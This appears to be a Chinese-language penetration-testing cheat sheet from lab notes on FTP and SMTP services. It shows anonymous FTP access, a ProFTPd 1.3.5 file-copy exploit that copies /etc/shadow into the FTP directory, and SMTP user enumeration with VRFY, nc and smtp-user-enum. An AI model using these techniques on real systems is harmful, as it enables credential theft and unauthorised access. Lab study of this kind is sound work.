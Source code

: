 ```bash
ftp 192.168.10.4 
anonymous    //匿名登录，知道用户名时可用其它用户名
binary
ls
get XXX
exit
```

也可以使用 wget 命令下载整个目录

```bash
wget -r -np -nH ftp://192.168.0.102/share/openemr/
```

proftpd 的漏洞利用 `searchsploit ProFTPd 1.3.5`，**任意文件复制 + 复制到 ftp 目录 /home/ftp 下 =  任意文件读取**

```bash
telnet 192.168.2.13 21
site cpfr /etc/shadow
site cpto /home/ftp/shadow
```

详情如下：

```http
.\vulnhub\Digitalworld.local (JOY).md
```

## 25

例子：

[25-smtp (flowus.cn)](https://flowus.cn/3902eac4-3ef0-49aa-9271-ec7312910dd1)

[25,465,587 - Pentesting SMTP/s - HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-smtp)

从25端口入手，通过smtp可以查看到用户

连接上25端口smtp服务，使用VRFY命令发现该命令未被禁用，返回 250 说明有该用户，可以借此来枚举用户

```bash
└─# nc -nv 192.168.0.102 25                                                                                                                               1 ⨯
(UNKNOWN) [192.168.0.102] 25 (smtp) open
220 vulnix ESMTP Postfix (Ubuntu)
VRFY vulnix
252 2.0.0 vulnix
```

当然也可以直接借用工具，使用工具`smtp-user-enum`枚举用户（此处用VRFY方式）

```bash
└─# smtp-user-enum -M VRFY -U /usr/share/metasploit-framework/data/wordlists/unix_users.txt -t 192.168.0.102                                            127 ⨯
Starting smtp-user-enum v1.2 ( http://pentestmonkey.net/tools/smtp-user-enum )

 ----------------------------------------------------------
|                   Scan Information                       |
 ----------------------------------------------------------

Mode ..................... VRFY
Worker Processes ......... 5
Usernames file ........... /usr/share/metasploit-framework/data/wordlists/unix_users.txt
Target count ............. 1
Username count ........... 168
Target TCP port .......... 25
Query timeout ............ 5 secs
Target domain ............ 

```